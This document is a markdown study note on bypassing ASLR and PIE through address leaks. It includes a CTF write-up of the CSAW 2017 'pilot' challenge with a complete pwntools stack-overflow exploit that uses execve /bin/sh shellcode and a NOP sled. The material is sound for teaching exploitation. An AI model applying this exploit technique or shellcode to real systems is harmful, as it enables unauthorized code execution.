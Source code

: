 # PIE and ASLR

## ASLR

**Address Space Layout Randomization**  
The address of memory is randomized, but the offsets between various pieces of memory remain the same.  
To bypass ASLR we need to leak a memory address and calculate the offset to what we are targeting.  

`vmmap` can be used inside `gdb`/`pwndgb` to view memory addresses space.  
```bash
gdb vuln
b main
run
vmmap
```

An information leak isonly good for the region of memory that is leaked.
I.e. an address leaked in the `libc` region is only good for the `libc` region, it cannot be used to calculate the address space for things like the `heap` or `stack`.  

## PIE

**Position Indipendant Executable**  
PIE is very similar to ASLR but for the actual binary's code/memory regions.  
The exploit is the same as ASLR: Leak an address and calculate the offset to your target.  


---

## Challs That Give You a Leak

### Csaw 2017 pilot

This program prints out a memory address and then takes in user input.  
User input can overflow a buffer which will overwrite a return address on the stack.  

```bash
$ ./pilot      
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fff49f86a30
[*]Command:
```
When opening in GDB there are no clear function names. Using `objdump` helps to read the assembly.  
After setting breakpoints you find out that the leaked address points to the start of user input on the stack.  
 
The following exploit fills the buffer with shellcode, pads with nops to overflow the buffer and uses the leaked address  
to return to the start of the user input and execute the shellcode.  

```python3
#!/usr/bin/env python3
from pwn import *

context.log_level = "debug"

io = process("./pilot")

# Receive lines until the leaked address
io.recvuntil(b"[*]Location:")

# Grab the address
addr = io.recvline().strip(b'\n')

# Receive lines until the user input is required
io.recvuntil(b"[*]Command:")

# Set the offset to the return address
offset = 40

# Shellcode from https://www.exploit-db.com/exploits/36858
shellcode = b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

# NOPSled to fill the buffer
nops = b"\x90" * (offset - len(shellcode))

# Build the payload
payload = shellcode + nops + p64(int(addr, 16))

# Send the payload and win
io.sendline(payload)
io.interactive()
```
